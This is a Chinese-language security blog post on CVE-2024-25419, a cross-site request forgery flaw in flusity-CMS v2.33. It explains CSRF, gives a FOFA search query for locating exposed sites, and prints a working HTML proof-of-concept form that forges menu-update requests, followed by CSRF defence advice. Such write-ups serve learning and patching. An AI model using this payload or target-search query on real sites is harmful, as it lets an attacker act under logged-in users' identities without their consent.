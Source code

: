 #  CVE-2024-25419   
原创 fgz  AI与网安   2024-03-03 10:48  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
  
flusity-2.33 CSRF漏洞  
  
  
02  
  
—  
  
CSRF漏洞原理  
  
  
  
  终于遇到一个热乎的CSRF漏洞，虽然覆盖面小，但还是学习下，先了解下什么是CSRF。  
  
  CSRF（Cross-site request forgery）跨站请求伪造，是一种劫持用户身份，以用户名义进行非预期操作，通常发生在用户在访问恶意网站或收到恶意邮件后。  
  
  攻击者通过一些方式诱使用户进入一个恶意网站，然后在该站点中插入一个链接或表单，该链接或表单通过用户的浏览器发出非预期的请求，伪造用户身份执行某种操作，如修改密码、转账、发布帖子等。  
  
  CSRF与XSS听起来很像，但攻击方式完全不同。  
XSS攻击是利用受信任的站点攻击客户端用户，而CSRF是伪装成受信任的用户攻击受信任的站点。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNLpgwWDjsXQ4MgJ630icTwkiaGeJXGPsPgKJoiatIUMBJR16vBpInex1YKbRWibtk8bVAWoJuEXO9FkQ/640?wx_fmt=png&from=appmsg "")  
  
  
条件：  
- 用户已经登录了目标网站或应用程序。  
  
- 目标网站或应用程序没有使用CSRF令牌来保护请求。  
  
- 攻击者能够构造出伪造的请求并将其发送到目标网站或应用程序。  
  
- 用户在浏览器中打开了恶意网站或点击了恶意链接，从而使攻击者能够利用用户的身份进行 CSRF 攻击。  
  
03  
  
—  
  
漏洞影响  
  
  
flusity-CMS v2.33版本  
  
开源地址：https://github.com/flusity/flusity-CMS  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNLpgwWDjsXQ4MgJ630icTwkwWP7uMJibEFl0RmVsice4LXjyXKyUkxo1WBXqC9twSk31eria66kerhWg/640?wx_fmt=png&from=appmsg "")  
  
  
  
04  
  
—  
  
漏洞描述  
  
  
flusity-CMS v2.33中的组件/core/tools/update_menu.php存在跨站请求伪造（CSRF）漏洞。攻击者可以通过利用该漏洞来执行未经授权的操作，可能导致用户的信息泄露或攻击者获取对系统的未授权访问权限。建议及时升级软件版本或采取其他安全措施来修复该漏洞。  
  
  
05  
  
—  
  
FOFA搜索语句  
  
  
```
icon_hash="1107917621"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNLpgwWDjsXQ4MgJ630icTwkl2zl2HRDDL9Tg2ia69w6B3YxKypv1bBaG7kVlB4Ie6MIaSc2MNQr2oA/640?wx_fmt=png&from=appmsg "")  
  
  
  
06  
  
—  
  
漏洞复现  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNLpgwWDjsXQ4MgJ630icTwkPtJYdB7g3RmNmBu4VTe5dRlDLnWaraRbRz5PKZDUhqZ0QD3c3UJWLA/640?wx_fmt=png&from=appmsg "")  
  
  
POC  
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/update_menu.php" method="POST">
      <input type="hidden" name="action" value="update&#95;menu" />
      <input type="hidden" name="menu&#95;id" value="12" />
      <input type="hidden" name="menu&#95;name" value="Kontaktai123" />
      <input type="hidden" name="lang&#95;menu&#95;name" value="Contact" />
      <input type="hidden" name="page&#95;url" value="contacts" />
      <input type="hidden" name="position" value="2" />
      <input type="hidden" name="template" value="template&#95;contacts" />
      <input type="hidden" name="show&#95;in&#95;menu" value="1" />
      <input type="hidden" name="parent&#95;id" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>




```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNLpgwWDjsXQ4MgJ630icTwkdypj9NX43ZlXwFFBZTgZvupV3jfkqa4L5y4RRAAP2p3gl3UP1NWQicQ/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞复现成功  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BNLpgwWDjsXQ4MgJ630icTwkPRUwU3S31z9aHTasdicV8tLKFwnjDnShRggeDsFHBzicepV9PjSQFauA/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版。  
  
  
  
08  
  
—  
  
CSRF防范建议  
  
  
1. 使用 CSRF 令牌：  
  
在用户登录后为每个用户生成一个唯一的 CSRF 令牌，并在用户发起 POST 请求时将该令牌作为一个隐藏字段或请求头信息一同提交到服务器。服务器会对提交的 CSRF 令牌进行验证，只有在令牌正确的情况下才会接受该请求并执行相应操作。这种方式被称为 CSRF 防御的 “双重提交” 策略，可以有效地防范 CSRF 攻击。  
  
2. 检查来源站点：  
  
服务器可以检查请求来源站点，如果来源站点不是当前用户正在访问的站点，则拒绝该请求。这种方式需要服务器端的支持，且可能会降低用户的使用体验。  
  
3. 避免使用敏感操作的 GET 请求：  
  
敏感操作，例如修改密码、转账等，不应该使用 GET 请求，因为 GET 请求的参数可以被直接暴露在 URL 中，容易被攻击者利用。应该使用 POST 请求或其他安全的方式来进行敏感操作。  
  
4. 设置 SameSite 属性：  
  
SameSite 属性可以防止跨站点请求伪造攻击，它可以告诉浏览器只有来自同一站点的请求才应该被发送到服务器，可以在 cookie 中设置 SameSite 属性来实现。  
  
5. 使用反 CSRF 令牌：  
  
反 CSRF 令牌是在请求中添加一个特定的参数来表示该请求是用户主动发起的，而不是被恶意网站发起的。服务器端会验证该参数的合法性，如果该参数不存在或不正确，则认为该请求是恶意的并拒绝执行。  
  
  
  
09  
  
—  
  
新粉丝福利领取  
  
  
在公众号主页或者文章末尾点击发送消息免费领取。  
  
发送【  
电子书】关键字获取电子书  
  
发送【  
POC】关键字获取POC  
  
发送【  
工具】获取渗透工具包  
  
